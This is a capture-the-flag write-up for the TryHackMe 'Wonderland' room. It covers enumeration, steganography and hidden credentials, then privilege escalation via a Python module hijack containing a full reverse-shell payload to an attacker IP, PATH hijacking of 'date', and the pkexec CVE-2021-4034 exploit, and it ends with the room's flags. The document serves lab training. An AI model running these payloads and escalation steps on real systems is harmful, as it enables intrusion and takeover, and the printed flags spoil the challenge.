 ```yaml
---
title: "Wonderland"
date: 2025-03-28
image: /assets/img/tryhackme/Wonderland/Wonderland_image.jpg
description: Writeup of the TryHackMe-CTF Wonderland
categories: [TryHackMe, Medium]
tags: [linux, steganography, python, pathmanipulation, pkexec]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Wonderland</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Fall down the rabbit hole and enter wonderland.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Medium</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/wonderland">https://tryhackme.com/room/wonderland</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Wonderland.

## Enumeration
I started the enumeration using `nmap`:
```bash
kali@kali:~/ctf/wonderland$ nmap -p- 10.10.87.79
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-28 06:45 EDT
  Nmap scan report for 10.10.87.79
  Host is up (0.039s latency).
  Not shown: 65533 closed tcp ports (conn-refused)
  PORT   STATE SERVICE
  22/tcp open  ssh
  80/tcp open  http

  Nmap done: 1 IP address (1 host up) scanned in 36.96 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
kali@kali:~/ctf/wonderland$ nmap -A -p 22,80 10.10.87.79
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-28 06:46 EDT
  Nmap scan report for 10.10.87.79
  Host is up (0.038s latency).

  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
  |   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
  |_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
  80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
  |_http-title: Follow the white rabbit.
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 13.56 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

The website displayed a quote of Alice in Wonderland. I initiated a Gobuster directory enumeration and manually began exploring the website. My attention was caught by an image of the `Märzhase` (March Hare in English), which had a `JPG` extension. After downloading the image, I applied some steganography techniques and was successful using `steghide`:
```bash
kali@kali:~/ctf/wonderland$ steghide --extract -sf white_rabbit_1.jpg 
Enter passphrase: 
wrote extracted data to "hint.txt".
                
kali@kali:~/ctf/wonderland$ cat hint.txt  
follow the r a b b i t
```

Once the Gobuster directory enumeration was complete, I had a strong sense of where this might lead:
```bash
kali@kali:~/ctf/wonderland$ gobuster dir --url http://10.10.87.79/ --wordlist /usr/share/wordlists/dirb/common.txt -x txt,html,php 

  ===============================================================
  Gobuster v3.6
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
  ===============================================================
  [+] Url:                     http://10.10.87.79/
  [+] Method:                  GET
  [+] Threads:                 10
  [+] Wordlist:                /usr/share/wordlists/dirb/common.txt
  [+] Negative Status codes:   404
  [+] User Agent:              gobuster/3.6
  [+] Extensions:              txt,html,php
  [+] Timeout:                 10s
  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /img                  (Status: 301) [Size: 0] [--> img/]
  /index.html           (Status: 301) [Size: 0] [--> ./]
  /index.html           (Status: 301) [Size: 0] [--> ./]
  /r                    (Status: 301) [Size: 0] [--> r/]
  Progress: 18456 / 18460 (99.98%)
  ===============================================================
  Finished
  ===============================================================
```

I entered the URL in the following format:
```html
http://10.10.87.79/r/a/b/b/i/t/
```

The website displayed another image, but this time it was a `.png` file. I continued analyzing the page source and found something interesting:
```html
<p style="display: none;">alice:H[removed]l</p>
```

This appeared to be a set of credentials. I attempted to log in via SSH, which was successful:
```bash
kali@kali:~/ctf/wonderland$ ssh alice@10.10.87.79 
alice@wonderland:~$ id
  uid=1001(alice) gid=1001(alice) groups=1001(alice)
```

The `user.txt` was not inside the home directory, so I analyzed which users were present:
```bash
  [...]
  tryhackme:x:1000:1000:tryhackme:/home/tryhackme:/bin/bash
  alice:x:1001:1001:Alice Liddell,,,:/home/alice:/bin/bash
  hatter:x:1003:1003:Mad Hatter,,,:/home/hatter:/bin/bash
  rabbit:x:1002:1002:White Rabbit,,,:/home/rabbit:/bin/bash
  [...]
```

## Privilege Escalation rabbit

Alice was allowed to run a Python script as user 'rabbit', so I proceeded to enumerate the script further:
```bash
alice@wonderland:/home$ sudo -l 
  Matching Defaults entries for alice on wonderland:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User alice may run the following commands on wonderland:
      (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

alice@wonderland:~$ cat walrus_and_the_carpenter.py 
  import random

  [... a lot of poems ...]

  for i in range(10):
      line = random.choice(poem.split("\n"))
      print("The line was:\t", line)
```

The imported `random` library caught my attention. To exploit this, I set the `PYTHONPATH` variable to Alice's home directory and created a file named `random.py`. This file was  imported by `walrus_and_the_carpenter.py`. My `random.py` script contained a reverse shell, which I successfully received triggered upon executing the script.
```bash
alice@wonderland:~$ cat random.py 
  import socket,subprocess,os,pty

  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[attacker-ip]",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2)
  pty.spawn("bash")
alice@wonderland:~$ export PYTHONPATH=/home/alice
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

rabbit@wonderland:~$ id
uid=1002(rabbit) gid=1002(rabbit) groups=1002(rabbit)
```

## Privilege Escalation hatter

In the `rabbit`'s user directory, I found a binary named `teaParty`. I executed it and received the following output:
```bash
rabbit@wonderland:/home/rabbit$ ./teaParty 
  Welcome to the tea party!
  The Mad Hatter will be here soon.
  Probably by Fri, 28 Mar 2025 12:30:40 +0000
  Ask very nicely, and I will give you some tea while you wait for him
  ok
  Segmentation fault (core dumped)
```

For further analysis, I downloaded the binary to my machine and loaded it in IDA. I discovered that the `date` command was used without reverencing the full path:

![IDA](/assets/img/tryhackme/Wonderland/thm_wonderland_1.jpg)

To exploit this, I created a binary called `date`, which spawns a shell. After modifying the PATH variable and executing `teaParty` again, I successfully escalated to user `hatter`.
```bash
rabbit@wonderland:/home/rabbit$ ed /tmp
rabbit@wonderland:/tmp$ echo "/bin/bash" > date
rabbit@wonderland:/tmp$ chmod 777 date
rabbit@wonderland:/tmp$ export PATH=/tmp:$PATH
rabbit@wonderland:/tmp$ cd /home/rabbit
rabbit@wonderland:~$ ./teaParty
  Welcome to the tea party!
  The Mad Hatter will be here soon.
  Probably by hatter@wonderland:/home/rabbit$
hatter@wonderland:~$ id
  uid=1003(hatter) gid=1003(hatter) groups=1003(hatter)
```

Once I gained access to the `hatter` user, I enumerated the home directory and found the user's. However, I was not permitted to run `sudo -l`:
```bash
hatter@wonderland:~$ cat password.txt 
  W[removed]?
hatter@wonderland:~$ sudo -l
  [sudo] password for hatter: 
  Sorry, user hatter may not run sudo on wonderland.
```

## Privilege Escalation root

Next, I checked for SUID bits and discoverd that `pkexec` had its SUID bit set. I used the exploit described in <a href="https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py">CVE-2021-4034</a> and successfully gained root access:


```bash
rabbit@wonderland:/home/rabbit$ python3 exploit.py 
  Do you want to choose a custom payload? y/n (n use default payload)  n
  [+] Cleaning pervious exploiting attempt (if exist)
  [+] Creating shared library for exploit code.
  [+] Finding a libc library to call execve
  [+] Found a library at <CDLL 'libc.so.6', handle 7fe114abf000 at 0x7fe1135697b8>
  [+] Call execve() with chosen payload
  [+] Enjoy your root shell
# id
  uid=0(root) gid=1002(rabbit) groups=1002(rabbit)
# cat /root/user.txt
  thm{"Curiouser and curiouser!"}
# cat /home/alice/root.txt
  thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
```

solved! :)